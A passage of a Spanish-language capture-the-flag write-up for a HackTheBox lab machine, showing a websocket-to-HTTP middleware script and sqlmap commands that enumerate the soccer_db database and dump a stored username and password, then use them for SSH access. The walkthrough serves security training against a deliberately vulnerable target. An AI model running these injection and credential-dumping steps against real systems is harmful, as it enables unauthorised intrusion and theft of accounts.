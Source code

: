 ```python
ws_server = "ws://soc-player.soccer.htb:9091"
data = '{"id":"%s"}' % message
```
Este script lo que hace es abrir el puerto **8081** en nuestro equipo y redirigirlo al websocket de la máquina vícitima hacia el puerto 9091. Mientras dejamos corriendo el script, ejecutamos **sqlmap**

```
❯ python3 sqli_blind.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

```
❯ sqlmap -u "http://localhost:8081/?id=1" --batch -dbs
[INFO] resumed: mysql
[INFO] resumed: information_schema
[INFO] resumed: performance_schema
[INFO] resumed: sys
[INFO] resumed: soccer_db
```

Vemos una base de datos **soccer_db**. Vamos a enumerar las tablas que tiene

```
[INFO] retrieved: accounts
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```
Vemos la tabla **accounts** y enumeraremos sus columnas

```
❯ sqlmap -u "http://localhost:8081/?id=1" --batch -D soccer_db -T accounts --columns
Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```

Vemos **password** y **username** y miramos qué contiene

```
❯ sqlmap -u "http://localhost:8081/?id=1" --batch -D soccer_db -T accounts -C username,password -dump
Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOftheMatch2022 |
+----------+----------------------+
```
Como vimos el puerto ssh abierto anteriormente, nos conectamos por ssh con las credenciales de **player**
